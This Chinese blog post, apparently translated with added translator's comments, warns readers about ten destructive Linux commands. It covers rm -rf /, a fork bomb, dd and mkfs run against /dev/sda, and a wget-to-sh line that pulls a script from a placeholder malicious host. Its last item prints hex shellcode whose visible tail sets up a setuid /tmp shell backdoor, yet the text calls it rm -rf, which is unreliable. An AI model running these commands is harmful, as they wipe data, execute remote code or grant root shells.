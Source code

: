 ```yaml
---
title: 永远不要在 Linux 执行的 10 个最危险的命令
tags:
  - Linux
  - Shell
url: 140.html
id: 140
categories:
  - 计算机系统
date: 2014-07-17 02:49:25
---
```


Linux命令行佷有用、很高效，也很有趣，但有时候也很危险，尤其是在你不确定你自己在正 在做什么时候。这篇文章并不打算引来你对Linux或linux 命令行的愤怒。我们只是想让你意识到在你运行某些命令时应该三思而后行。（译注：当然，以下命令通常都是在root权限下才能将愚蠢发挥到无可救药；在普 通用户身份下，破坏的只是自己的一亩三分地。） [![08063106_Sreu](http://storage.veitor.net/uploads/2014/07/08063106_Sreu.jpg)](http://storage.veitor.net/uploads/2014/07/08063106_Sreu.jpg) **1\. rm -rf 命令** rm -rf命令是删除文件夹及其内容最快的方式之一。仅仅一丁点的敲错或无知都可能导致不可恢复的系统崩坏。下列是一些rm 命令的选项。

*   rm　命令在Linux下通常用来删除文件。
*   rm -r 命令递归的删除文件夹，甚至是空的文件夹。（译注：个人认为此处应该是说错了，从常识看，应该是“甚至是非空的文件夹”）
*   rm -f 命令能不经过询问直接删除‘只读文件’。（译注：Linux下删除文件并不在乎该文件是否是只读的，而只是在意其父目录是否有写权限。所以，-f这个参数 只是表示不必一个个删除确认，而是一律悄悄删除。另外，原始的rm命令其实也是没有删除提示的，只是一般的发行版都会将rm通过别名的方式增加-i参数来 要求删除确认，而-f则抑制了这个提示。）
*   rm -rf / : 强制删除根目录下所有东东。（就是说删除完毕后，什么也没有了。。。）
*   rm -rf *:　强制删除当前目录的所有文件。
*   rm -rf . : 强制删除当前文件夹及其子文件夹。

从 现在起，当你要执行rm -rf命令时请留心一点。我们可以在“.bashrc”文件对‘rm‘命令创建rm -i的别名，来预防用 ‘rm‘命令删除文件时的事故，它会要求你确认每一个删除请求。（译注：大多数发行版已经这样做了，如果还没有，请这样做，并在使用-f参数前一定考虑好 你在做什么！译者本人有着血泪的教训啊。） **2\. :(){:|:&};: 命令** 这就是个fork 炸弹的实例。具体操作是通过定义一个名为 ‘:‘的函数，它会调用自己两次，一次在前台另一次运行在后台。它会反复的执行下去直到系统崩溃。 :(){:|:&};: 哦？你确认你要试试么？千万别在公司正式的服务器上实验啊~~ **3\. 命令　> /dev/sda** 上列命令会将某个‘命令‘的输出写到块设备/dev/sda中。该操作会将在块设备中的所有数据块替换为命令写入的原始数据，从而导致整个块设备的数据丢失。 **4\. mv 文件夹 /dev/null** 这 个命令会移动某个‘文件夹‘到/dev/null。在Linux中 /dev/null 或 null 设备是一个特殊的文件，所有写入它的数据都会被清除，然后返回写操作成功。（译注：这就是黑洞啊。当然，要说明的是，通过将文件夹移动到黑洞，并不能阻止 数据恢复软件的救赎，所以，真正的彻底毁灭，需要采用专用的软件或者手法来完成——我知道你肯定有些东西想删除得干干净净的。） # mv /home/user/* /dev/null 上列命令会将User目录所有内容移动到/dev/null，这意味着所有东西都被‘卷入’黑洞　(null)之中。 **5\. wget http://malicious_source -O- | sh** 上列命令会从一个（也许是）恶意源下载一个脚本并执行。Wget命令会下载这个脚本，而sh会（无条件的）执行下载下来的脚本。 注意: 你应该时刻注意你下载包或脚本的源。只能使用那些从可信任的源中下载脚本/程序。（译注：所以，你真的知道你在做什么吗？当遇到这种需要是，我的做法是，先wget下来，然后我去读一读其中到底写了些什么，然后考虑是否执行。） **6\. mkfs.ext3 /dev/sda** 上列命令会格式化块设备‘sda’，你无疑知道在执行上列命令后你的块设备(硬盘驱 动器)会被格式化，崭新的!没有任何数据，直接让你的系统达到不可恢复的阶段。（译注：通常不会直接使用/dev/sda这样的设备，除非是作为raw设 备使用，一般都需要将sda分成类似sda1、sda2这样的分区后才使用。当然，无论你使用sda还是sda1，这样对块设备或分区进行mkfs都是毁 灭性的，上面的数据都会被蒸发了。） **7\. > file** 上列命令常用来清空文件内容（译注：通常也用于记录命令输出。 不过请在执行前，确认输出的文件是空的或者还不存在，否则原来的文件可真是恢复不了了——连数据恢复软件都未必能帮助你了。另外，我想你可能真正想用的是 “>>”，即累加新的输出到文件，而不是刷新那个文件。）。如果用上列执行时输入错误或无知的输入类似 “>xt.conf”　的命令会覆盖配置文件或其他任何的系统配置文件。 **8\. ^foo^bar** 这个命令在我们[十个鲜为人知的 Linux 命令 – Part 3](http://linux.cn/article-2284-1.html)中描述过，用来编辑先前运行的命令而无需重打整个命令。但当用foobar命令时如果你没有彻底检查改变原始命令的风险，这可能导致真正的麻烦。（译注：事实上，这种小技巧是译者认为的，少数史前时代遗留下来的无用而有害的“黑客”技巧。） **9\. dd if=/dev/random of=/dev/sda** 上列命令会向块设备sda写入随机的垃圾文件从而擦出数据。当然！你的系统可能陷入混乱和不可恢复的状态。（译注：记得上面说过mv到黑洞并不能彻底删除数据么？那么这个命令就是给了你一个彻底删除的方法！当然为了保险起见，你可以覆写多次。） **10\. 隐藏命令** 下面的命令其实就是上面第一个命令 (rm -rf)。这里的代码是隐藏在十六进制里的,一个无知的用户可能就会被愚弄。在终端里运行下面命令可能会擦除你的根分区。 这个命令表明通常真正的危险是隐藏的，不会被轻易的检测到。你必须时刻留心你在做什么结果会怎样。不要编译／运行从未知来源的代码。

char esp\[\] \_\_attribute\_\_ ((section(“.text”))) /* e.s.prelease */= “\\xeb\\x3e\\x5b\\x31\\xc0
\\x50\\x54\\x5a\\x83\\xec\\x64\\x68″“\\xff\\xff\\xff\\xff\\x68\\xdf\\xd0\\xdf\\xd9\\x68\\x8d\\x99″“
\\xdf\\x81\\x68\\x8d\\x92\\xdf\\xd2\\x54\\x5e\\xf7\\x16\\xf7″“\\x56\\x04\\xf7\\x56\\x08\\xf7\\x56
\\x0c\\x83\\xc4\\x74\\x56″“\\x8d\\x73\\x08\\x56\\x53\\x54\\x59\\xb0\\x0b\\xcd\\x80\\x31″“\\xc0
\\x40\\xeb\\xf9\\xe8\\xbd\\xff\\xff\\xff\\x2f\\x62\\x69″“\\x6e\\x2f\\x73\\x68\\x00\\x2d\\x63
\\x00″“cp -p /bin/sh /tmp/.beyond; chmod 4755/tmp/.beyond;”;

注意: 不要在你的或你的同学或学校的电脑里的Linux终端或Shell执行以上的任何一个命令。如果你想测试它们，请在虚拟机上运行。任何不和谐或数据丢失，由于运行上面的命令导致你的系统崩溃，文章作者和Tecmint概不负责。（译注：译者和转载网站也不负责~！）